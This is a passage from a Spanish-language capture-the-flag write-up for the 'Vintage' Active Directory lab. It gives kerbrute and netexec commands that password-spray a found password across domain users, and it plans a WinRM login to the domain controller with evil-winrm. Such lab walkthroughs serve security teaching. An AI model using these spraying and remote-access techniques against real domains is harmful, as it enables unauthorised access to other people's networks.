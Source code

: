 ### Password spraying with Kerbrute

Procederemos de realizar un **Password spraying** autenticándonos mediante Kerberos a través de la herramienta de **Kerbrute** para verificar si esta contraseña se reutiliza con otros usuarios del dominio.

Verificamos que efectivamente ha validado que el usuario (C.Neri@vintage.htb) dispone de las mismas credenciales.

```bash
kerbrute passwordspray -d vintage.htb --dc dc01.vintage.htb users.txt 'Zer0the0ne'
```

<figure><img src="../../../.gitbook/assets/2736_vmware_ERUqYvK0Mv.png" alt="" width="521"><figcaption></figcaption></figure>

Validaremos nuevamente a través de **netexec** de que las credenciales si son válidas para el usuario (c.neri@vintage.htb).

```bash
netexec smb dc01.vintage.htb -u 'c.neri' -p 'Zer0the0ne' -k
```

<figure><img src="../../../.gitbook/assets/2737_vmware_hQaNzfN0gy.png" alt=""><figcaption></figcaption></figure>

### Abusing Win-RM - EvilWinRM

Revisando en BloodHound los privilegios de este nuevo usuario, nos damos cuenta que tiene permisos de **CanPSRemote** sobre el Domain Controller (dc01.vintage.htb). Por lo tanto, a través de **evil-winrm** podremos conectarnos al DC.

<figure><img src="../../../.gitbook/assets/2738_vmware_H6GwVhGxS3.png" alt=""><figcaption></figcaption></figure>
